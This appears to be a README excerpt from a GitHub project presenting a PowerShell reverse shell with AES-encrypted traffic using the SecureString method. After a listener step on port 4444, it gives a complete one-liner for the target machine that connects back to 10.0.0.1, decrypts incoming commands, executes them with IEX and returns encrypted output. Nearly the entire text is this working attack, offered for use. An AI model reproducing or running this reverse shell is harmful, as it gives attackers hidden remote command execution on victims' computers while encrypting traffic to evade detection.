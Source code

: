 
### Reverse Shell over TCP (+ AES Encryption) using PowerShell SecureString Method:
Client & C2 Server Listener.

- Attacker:

PS> .\Server.ps1
Port:4444
[*] Listeneing on Port ["4444"] [*]

- Target:

PS> $Key=(226,183,97,6,17,176,21,164,211,64,197,229,220,92,207,182,192,132,103,202,131,244,142,31,82,141,162,94,187,176,23,192);$Client=New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$Stream=$Client.GetStream();[byte[]]$Bytes=0..65535|%{0};while(($Read=$Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0){;$Command=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($Bytes,0, $Read);$DeCode=$Command | ConvertTo-SecureString -Key $Key;$OutPut=(IEX([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($DeCode))) 2>&1 | Out-String);$EnCode=ConvertTo-SecureString $OutPut -AsPlainText -Force | ConvertFrom-SecureString -Key $Key;$SendByte=([text.encoding]::ASCII).GetBytes($EnCode);$Stream.Write($SendByte,0,$SendByte.Length);$Stream.Flush()};$Client.Close();Exit
